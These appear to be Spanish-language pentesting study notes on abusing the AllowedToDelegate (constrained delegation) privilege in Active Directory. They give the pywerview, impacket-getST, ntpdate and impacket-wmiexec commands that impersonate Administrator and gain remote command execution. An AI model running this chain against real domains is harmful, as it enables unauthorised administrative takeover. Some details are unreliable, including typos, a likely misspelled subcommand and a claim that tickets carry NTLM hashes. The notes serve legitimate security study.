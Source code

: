 -----
- Tags: #ataque #teoria #practica #windows 
-----

# AllowedToDelegate

El privilegio **AllowedToDelegate** (También conocido como **SeEnableDelegationPrivilege**) en Windows se refiere a un privilegio de seguridad que se puede asignar a una cuenta de usuario o grupo. Este privilegio permite que una cuenta delegue sus credenciales a otros servicios o sistemas en la red. 

Cuando este privilegio es asignado a una cuenta, esta cuenta puede actuar como intermediario para la autenticación y la delegación de sus credencial4es a otros servicos o sistemas en la red. Esto significa que la cuenta puede proporcionar sus credenciales a otros servicios o sistemas para que puedan autenticarse en nombre de esa cuenta y realizar acciones en su nombre. 

-----

# Explotación 

Al tener una cuenta con el privilegio **AllowedToDelegate** podríamos intentar impersonar a otro usuario como bien vimos, siendo así posible impersonar al usuario administrador para solicitar un ticket TGS el cual contiene el hash NTLM del usuario que lo solicita. 

Para explotar esto, podríamos hacer uso de la herramienta **impacket-getST** para intentar obtener un ticket de servicio (TGS) para posteriormente solicitar acceso a un servicio específico dentro del AD. 

La herramienta **getST** para abusar del privilegio **AllowedToDelegate** nos solicitará el **SPN (Service Principal Name)**, es decir el nombre (identificador) único del servicio al que se le desea solicitar el TGS.

Para obtener esto, podríamos hacer uso de otra herramienta llamada **pywerview**, herramienta que se utiliza para enumerar y explotar acticos de Active Directory en entornos de Windows. 

```bash
pywerview get-netcompute -u '{username}' -t {target_ip} --full-data 
```

Esto lo que hará es listar múltiple información dentro de ella una línea denominada "**msds-allowedtodelegateto:**" el cual será el nombre del SPN al que podremos solicitar el TGS. Una vez obtenido este, podemos proseguir con el ataque para solicitar un TGS.

```bash
impacket-getST -spn {spn_name} -impersonate Administrator {domain}/{username} -hashes :{NT_HASH}
```

A la hora de ejecutar el ataque, puede ser que no funcione por no estar sincronizada la hora con el AD. Para sincronizar la hora podríamos instalar la herramienta **ntpdate** (apt install ntpdate). 

```bash
sudo ntpdate {target_IP}
sudo ntpdate -s {target_IP}
```

Una vez sincronizado el tiempo de nuestra máquina de atacantes con el AD, podremos hacer uso otra vez del comando de **impacket-getST**. Una vez ejecutado exitosamente nos alojara en el directorio de trabajo el archivo **Administrator.ccache**, el cual usaremos para autenticarnos al sistema haciendo uso de la autenticación de kerberos, por lo que primero deberíamos exportar una variable de entorno llamada **KRB5CCNAME**.

```bash
export KRB5CCNAME=Administrator.ccache
```

Una vez exportada, podríamos hacer uso de la herramienta **impacket-wmiexec**. WMI es una interfaz de administración de Windows que permite a los administradores gestionar y consultar información sobre los sistemas operativos Windows y los servicios que se ejecutan en ellos. Esta herramienta (wmiexec) aprovecha el protocolo WMI para ejecutar comandos y scripts en hosts remotos que admiten este protocolo. 

```bash
impacket-wmiexec {complete_name_dc} -k -no-pass
```

Una vez ejecutado este comando, obtendriamos acceso al sistema como el usuario Administrador. 